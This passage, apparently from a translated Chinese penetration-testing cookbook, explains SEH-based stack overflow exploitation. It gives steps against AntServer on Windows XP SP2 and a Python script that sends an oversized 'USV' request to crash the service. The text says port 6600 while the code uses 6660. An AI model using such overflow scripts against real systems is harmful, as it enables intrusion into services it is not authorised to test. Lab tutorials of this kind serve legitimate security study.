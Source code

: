 资料来源：https://www.corelan.be/wp-content/uploads/2009/07/image_thumb45.png

当异常发生时，SEH 链将根据其类型来救援并处理异常。

因此，当出现非法指令时，应用有机会处理异常。如果应用中没有定义异常处理程序，我们将看到 Windows 显示的错误：类似于向 Microsoft 发送报告。

为了成功利用 SEH 处理程序的程序，我们首先尝试用缓冲区填充堆栈，然后尝试覆盖存储第一个 SEH 记录链的内存地址。然而，这还不够；我们还需要生成一个错误，它将实际触发 SEH 处理程序，然后我们将能够完全控制程序的执行流。一个简单的方法是一直填充堆栈，这将创建一个要处理的异常，因为我们已经控制了第一条 SEH 记录，所以我们将能够利用它

# 怎么做。。。

在本食谱中，您将了解如何做到这一点：

1.  让我们下载一个名为 AntServer 的程序。它有很多可用的公共漏洞，我们将尝试为它构建自己的漏洞。
2.  我们将在上一个配方中使用的 Windows XP SP2 机器上安装它。
3.  AntServer 存在一个漏洞，可通过向在端口`6600`上运行的 AntServer 发送长 USV 请求来触发该漏洞：

![](img/ea4fd8f1-96bc-4169-b405-16cdfaa4739f.png)

4.  让我们通过打开软件并导航到服务器来运行 AntServer |运行服务控制…：

![](img/110334f7-16d2-4b7d-9747-fe7014451572.png)

5.  现在，让我们编写一个简单的 Python 脚本，它将在端口`6600`上向该服务器发送一个大请求：

```
        #!/usr/bin/pythonimport socket
        import socket
        address="192.168.110.6"
        port=6660    
        buffer = "USV " + "\x41" * 2500 + "\r\n\r\n"
        sock=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        connect=sock.connect((address, port))
        sock.send(buffer)
        sock.close()
```
